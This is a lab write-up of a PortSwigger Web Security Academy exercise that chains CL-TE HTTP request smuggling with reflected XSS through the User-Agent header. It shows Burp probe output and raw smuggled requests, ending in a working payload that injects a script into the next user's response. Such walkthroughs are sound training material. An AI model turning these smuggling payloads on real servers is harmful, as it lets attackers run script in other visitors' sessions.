 ### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
<i>Note 2: my lab ID will change during the following steps, so you could find some discrepancies between images and the source code</i>
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
<br>![img](./img/64.png)<br>
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
<br>![img](./img/65.png)<br>
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
<br>![img](./img/66.png)<br>
Following the redirect:
<br>![img](./img/67.png)<br>

Now that we have found the desync vulnerability we need to find the reflected vulnerability. Inspecting the creation of new comment request we can see that the user-agent header is passes as parameter:
-- 68 --
Moreover inspecting the post's comment page we can see that the value is reflected into a hidden input field
-- 69 --
Let's try to inject the user-agent header:
-- 70 --
So our JS payload is reflected, sending the request to the browser (right click on the request body, then 1, 2), copy the provided link into your browser and you get the alert pop-up into the response (eventually you could just use Show response in browser, 3)
-- 71 --
Finally we can combine the two vulnerability to solve the lab using the following payload:
```
POST / HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Transfer-Encoding: chunked

0

GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>
```
In the above POST request the front-end  will pass the  GET as body to the back-end, that understands the transfer-encoding, will treat it as belonging (prepending) to the next request, for istance. Now, after having submitted the exploit, if you visit the post ID 5 you will see the pop-up alert appearing, before to land to the post ID 5 page, since the server will parse the following request:
```
GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>GET /post?postId=5 HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Cookie: session=Wq6CtAqrwzJDZbfX6NZM4Ncn8ZhyCWK1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
...
```
Submit the exploit a couple of time and you will see that the Lab is solved



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

